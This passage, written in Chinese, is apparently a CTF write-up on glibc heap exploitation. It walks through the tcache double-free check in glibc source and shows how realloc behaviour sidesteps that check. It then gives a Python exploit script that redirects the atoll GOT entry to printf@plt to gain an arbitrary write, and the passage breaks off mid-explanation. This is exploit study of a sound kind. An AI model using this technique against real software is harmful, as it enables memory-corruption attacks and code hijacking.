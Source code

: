 ```c
  }
#endif
  ...
}
```

可以看到
- `if (tcache != NULL && tc_idx < mp_.tcache_bins)`
    - `tcache` 在這邊已經有初始化過了, 且因為 size 被限制在 0x78 底下, 正常來說一定滿足 `tc_idx < mp_.tcache_bins`

- `if (__glibc_unlikely (e->key == tcache))`
    - `e->key` 其實就跟熟悉的 chunk->bk 代表同一個地方
    - 在正常 free 掉之後, `e->key` 會被設定為 `tcache`
    - 也就是說，正常寫 code 情況下, 這個 if 通常不會成立, 因為你不會沒事 double free, `e->key` 在還沒 free 的情況下是正常使用者存放的資料, 不太會等於 `tcache`, 這個多加的防禦對於正常使用情況下只會多跑一兩個 if 判斷, 效能影響不大
    - **阿不過這就是問題所在, 就是因為這個, 直接打 double free 時會讓此 if 成立**
        - 裡面直接遍尋整個 linked list, 有重複就 `malloc_printerr`

但目前也想不到其他方法, 只能試圖硬繞看看這個保護

**進到遍尋整個 linked list 的 code block 的話, double free 一定會被揪出來**

所以不要進到辣個 code block, 只能想辦法讓前面兩個 if 其中一個不要走進去

而第一個 if 直覺想是繞不掉

第二個 if 要改掉`e->key`(跟 bk 同樣位址) 好像值得一踹

但突然就被我 Try 到 realloc 的一個特性, 讓我完全不用用到 double free
```c
void *
__libc_realloc (void *oldmem, size_t bytes)
{
  ...
  if (SINGLE_THREAD_P)
    {
      newp = _int_realloc (ar_ptr, oldp, oldsize, nb);
      assert (!newp || chunk_is_mmapped (mem2chunk (newp)) ||
	      ar_ptr == arena_for_chunk (mem2chunk (newp)));

      return newp;
    }
  ...
}
```
進到 `_int_realloc` 後, 若 `oldsize >= nb` 則仍舊分配 `oldp` 給 `newp`, 意思是反正舊有的 chunk size 夠大, 要做的只是調整 size, 如果 remainder 還有足夠大的空間就要多做處理一下

來看 exploit 腳本的部分

前面 function 部分跟上一 part 的相同

```python
# Double-free-like attack
writehere = atoll_got
allocate(1, 0x10, b'a'*0x2) # heap[1] = malloc(0x10)
reallocate(1, 0) # free(heap[1])
allocate(0, 0x10, b'a'*0x2) # heap[0] = malloc(0x10)
rfree(1) # free(heap[1]), heap[1] = 0
reallocate(0, 0x10, p64(writehere).ljust(0x10, b'\x87')) # heap[0] = realloc(heap[0], 0x10)
rfree(1) # malloc(0), garbage
payload = p64(printf_plt)
allocate(1, 0x10, payload[:0x7]) # heap[1] = malloc(0x10), arbitrary write
```
解釋一下：
- `heap[1] = malloc(0x10)`
    - 寫入啥不重要
- `free(heap[1])`
- `heap[0] = malloc(0x10)`